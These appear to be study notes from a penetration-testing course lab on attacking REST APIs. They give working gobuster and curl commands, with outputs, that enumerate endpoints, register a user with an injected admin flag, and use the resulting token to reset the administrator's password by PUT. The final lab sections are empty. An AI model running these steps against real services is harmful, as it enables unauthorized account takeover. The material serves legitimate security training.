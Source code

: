 # Enumerating and Abusing APIs

API Path Naming Convention
>``` shell
>/api_name/v1
>```

Gobuster pattern
>``` shell
>{GOBUSTER}/v1
>{GOBUSTER}/v2
>```

Bruteforcing API Paths
>``` shell
>kali@kali:~$ gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
>
># ========== Expected Result ==========
>===============================================================
>Gobuster v3.1.0
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
>===============================================================
>[+] Url:                     http://192.168.50.16:5001
>[+] Method:                  GET
>[+] Threads:                 10
>[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
>[+] Patterns:                pattern (1 entries)
>[+] Negative Status codes:   404
>[+] User Agent:              gobuster/3.1.0
>[+] Timeout:                 10s
>===============================================================
>2022/04/06 04:19:46 Starting gobuster in directory enumeration mode
>===============================================================
>/books/v1             (Status: 200) [Size: 235]
>/console              (Status: 200) [Size: 1985]
>/ui                   (Status: 308) [Size: 265] [--> http://192.168.50.16:5001/ui/]
>/users/v1             (Status: 200) [Size: 241]
># =====================================
>```

Obtaining Users' Information
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1
>
># ========== Expected Result ==========
>HTTP/1.0 200 OK
>Content-Type: application/json
>Content-Length: 241
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 09:27:50 GMT
>
>{
>  "users": [
>    {
>      "email": "mail1@mail.com",
>      "username": "name1"
>    },
>    {
>      "email": "mail2@mail.com",
>      "username": "name2"
>    },
>    {
>      "email": "admin@mail.com",
>      "username": "admin"
>    }
>  ]
>}
># =====================================
>```

Discovering extra APIs
>``` shell
>kali@kali:~$ gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
>
># ========== Expected Result ==========
>===============================================================
>Gobuster v3.1.0
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
>===============================================================
>[+] Url:                     http://192.168.50.16:5001/users/v1/admin/
>[+] Method:                  GET
>[+] Threads:                 10
>[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
>[+] Negative Status codes:   404
>[+] User Agent:              gobuster/3.1.0
>[+] Timeout:                 10s
>===============================================================
>2022/04/06 06:40:12 Starting gobuster in directory enumeration mode
>===============================================================
>/email                (Status: 405) [Size: 142]
>/password             (Status: 405) [Size: 142]
>
>===============================================================
>2022/04/06 06:40:35 Finished
>===============================================================
># =====================================
>```

Discovering API unsupported methods
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1/admin/password
>
># ========== Expected Result ==========
>HTTP/1.0 405 METHOD NOT ALLOWED
>Content-Type: application/problem+json
>Content-Length: 142
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 10:58:51 GMT
>
>{
>  "detail": "The method is not allowed for the requested URL.",
>  "status": 405,
>  "title": "Method Not Allowed",
>  "type": "about:blank"
>}
># =====================================
>```

Inspecting the 'login' API
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>HTTP/1.0 404 NOT FOUND
>Content-Type: application/json
>Content-Length: 48
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 12:04:30 GMT
>
>{ "status": "fail", "message": "User not found"}
># =====================================
>```

Crafting a POST request against the login API
>``` shell
>kali@kali:~$ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{ "status": "fail", "message": "'email' is a required property"}}
># =====================================
>```

Attempting new User Registration
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
>
># ========== Expected Result ==========
>{ "status": "fail", "message": "Password is not correct for the given username."}
># =====================================
>```

Attempting to register a new user as admin
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
>
># ========== Expected Result ==========
>{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
># =====================================
>```

Logging in as an admin user
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
># =====================================
>```

Attempting to Change the Administrator Password via a POST request
>``` shell
>kali@kali:~$ curl  \
>  'http://192.168.50.16:5002/users/v1/admin/password' \
>  -H 'Content-Type: application/json' \
>  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
>  -d '{"password": "pwned"}'
>
># ========== Expected Result ==========
>{
>  "detail": "The method is not allowed for the requested URL.",
>  "status": 405,
>  "title": "Method Not Allowed",
>  "type": "about:blank"
>}
># =====================================
>```

Attempting to Change the Administrator Password via a PUT request
>``` shell
>kali@kali:~$ curl -X 'PUT' \
>  'http://192.168.50.16:5002/users/v1/admin/password' \
>  -H 'Content-Type: application/json' \
>  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
>  -d '{"password": "pwned"}'
>```

Successfully logging in as the admin account
>``` shell
>kali@kali:~$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
># =====================================
>```

Lab 1 -
>``` shell
>
>```
>

Lab 2 -
>``` shell
>
>```
>

Lab 3 -
>``` shell
>
>```
>

Lab 4 -
>``` shell
>
>```
>

Lab 5 -
>``` shell
>
>```
>

Lab 6 -
>``` shell
>
>```
>
